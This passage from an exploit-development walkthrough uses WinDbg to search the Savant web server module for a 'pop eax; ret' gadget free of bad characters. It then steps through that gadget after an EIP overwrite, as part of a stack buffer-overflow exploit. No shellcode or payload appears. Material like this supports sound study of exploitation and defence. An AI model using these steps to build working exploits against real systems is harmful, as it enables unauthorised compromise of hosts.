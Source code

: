 Let's search for these instructions in the module and pick any of them that does not contain badchars:
```c
0:008> lm m savant
Browse full module list
start    end        module name
00400000 00452000   Savant   C (no symbols)           
0:008> s -b 00400000 00452000   58 c3
00418674  58 c3 33 c0 c3 55 8b ec-51 51 83 7d 08 00 ff 75  X.3..U..QQ.}...u
0041924f  58 c3 a1 68 a2 44 00 56-83 f8 03 57 75 66 53 33  X..h.D.V...WufS3
004194f6  58 c3 33 c0 c3 a1 68 a2-44 00 83 f8 03 75 06 a1  X.3...h.D....u..
00419613  58 c3 a1 4c a2 44 00 8d-0c 80 a1 50 a2 44 00 8d  X..L.D.....P.D..
0041a531  58 c3 33 c0 c3 83 3d 68-ae 43 00 ff 53 55 56 57  X.3...=h.C..SUVW
0041af7f  58 c3 8b 65 e8 33 db 33-f6 83 4d fc ff 3b f3 74  X..e.3.3..M..;.t
0041b464  58 c3 33 c0 c3 55 8b ec-83 ec 0c 8b 45 0c 53 56  X.3..U......E.SV
0041b9fa  58 c3 33 c0 c3 0f b6 44-24 04 8a 4c 24 0c 84 88  X.3....D$..L$...
0041ba2e  58 c3 55 8b ec 83 ec 18-53 56 57 6a 19 e8 b6 f3  X.U.....SVWj....
0041c49a  58 c3 e8 c6 b9 ff ff 83-c0 54 c3 55 8b ec 81 ec  X........T.U....
0041cc30  58 c3 8b 65 e8 33 ff 89-7d dc 83 4d fc ff 8b 5d  X..e.3..}..M...]
0041cce4  58 c3 8b 65 e8 33 ff 33-db 83 4d fc ff 8b 75 d8  X..e.3.3..M...u.
0041eb74  58 c3 33 c0 c3 55 8b ec-83 ec 78 8d 45 88 6a 78  X.3..U....x.E.jx
0041fe21  58 c3 8b 65 e8 33 ff 89-7d d4 83 4d fc ff 8b 75  X..e.3..}..M...u
0041fe7e  58 c3 8b 65 e8 33 ff 33-db 83 4d fc ff 3b df 74  X..e.3.3..M..;.t
00420904  58 c3 8b 65 e8 33 ff 33-f6 83 4d fc ff 3b f7 74  X..e.3.3..M..;.t
00420a1d  58 c3 8b 65 e8 33 f6 33-ff 83 4d fc ff 3b fe 74  X..e.3.3..M..;.t
00420e69  58 c3 8b 65 e8 33 db 89-5d dc 83 4d fc ff 8b 75  X..e.3..]..M...u
00420ed8  58 c3 8b 65 e8 33 db 33-ff 83 4d fc ff 8b 75 e0  X..e.3.3..M...u.
```

The first one is a good candidate. Replacing such address with the EIP overwrite leads us in landing to such address. Let's analyze it:
```c
0:009> bp 0x418674
*** WARNING: Unable to verify checksum for Savant.exe
0:009> g
Breakpoint 0 hit
eax=00000000 ebx=016d2bf0 ecx=0000000e edx=77732da0 esi=016d2bf0 edi=0041703c
eip=00418674 esp=0481ea1c ebp=41414141 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000202
Savant+0x18674:
00418674 58              pop     eax
0:004> t
Breakpoint 0 hit
eax=00000000 ebx=016d2bf0 ecx=0000000e edx=77732da0 esi=016d2bf0 edi=0041703c
eip=00418674 esp=0481ea1c ebp=41414141 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000202
Savant+0x18674:
00418674 58              pop     eax
0:004> t
eax=0481fe60 ebx=016d2bf0 ecx=0000000e edx=77732da0 esi=016d2bf0 edi=0041703c
eip=00418675 esp=0481ea20 ebp=41414141 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000202
Savant+0x18675:
00418675 c3              ret

0:004> dds esp
0481ea20  0481ea74
0481ea24  0041703c Savant+0x1703c

0:004> dds poi(esp)
0481ea74  00544547
0481ea78  00000000
0481ea7c  00000000
0481ea80  00000000
0481ea84  00000000
```